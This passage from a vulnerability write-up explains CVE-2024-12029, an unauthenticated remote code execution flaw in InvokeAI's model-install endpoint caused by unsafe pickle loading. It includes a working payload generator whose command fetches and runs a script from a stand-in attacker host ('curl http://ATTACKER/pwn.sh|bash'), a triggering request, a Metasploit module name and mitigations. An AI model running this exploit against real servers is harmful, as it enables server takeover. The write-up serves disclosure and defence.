 When the supplied file is a **PyTorch checkpoint (`*.ckpt`)**, `torch.load` performs a **pickle deserialization**.  Because the content comes directly from the user-controlled URL, an attacker can embed a malicious object with a custom `__reduce__` method inside the checkpoint; the method is executed **during deserialization**, leading to **remote code execution (RCE)** on the InvokeAI server.

The vulnerability was assigned **CVE-2024-12029** (CVSS 9.8, EPSS 61.17 %).

#### Exploitation walk-through

1. Create a malicious checkpoint:

```python
# payload_gen.py
import pickle, torch, os

class Payload:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'curl http://ATTACKER/pwn.sh|bash'",))

with open("payload.ckpt", "wb") as f:
    pickle.dump(Payload(), f)
```

2. Host `payload.ckpt` on an HTTP server you control (e.g. `http://ATTACKER/payload.ckpt`).
3. Trigger the vulnerable endpoint (no authentication required):

```python
import requests

requests.post(
    "http://TARGET:9090/api/v2/models/install",
    params={
        "source": "http://ATTACKER/payload.ckpt",  # remote model URL
        "inplace": "true",                         # write inside models dir
        # the dangerous default is scan=false → no AV scan
    },
    json={},                                         # body can be empty
    timeout=5,
)
```

4. When InvokeAI downloads the file it calls `torch.load()` → the `os.system` gadget runs and the attacker gains code execution in the context of the InvokeAI process.

Ready-made exploit: **Metasploit** module `exploit/linux/http/invokeai_rce_cve_2024_12029` automates the whole flow.

#### Conditions

•  InvokeAI 5.3.1-5.4.2 (scan flag default **false**)
•  `/api/v2/models/install` reachable by the attacker
•  Process has permissions to execute shell commands

#### Mitigations

* Upgrade to **InvokeAI ≥ 5.4.3** – the patch sets `scan=True` by default and performs malware scanning before deserialization.
* When loading checkpoints programmatically use `torch.load(file, weights_only=True)` or the new [`torch.load_safe`](https://pytorch.org/docs/stable/serialization.html#security) helper.
* Enforce allow-lists / signatures for model sources and run the service with least-privilege.
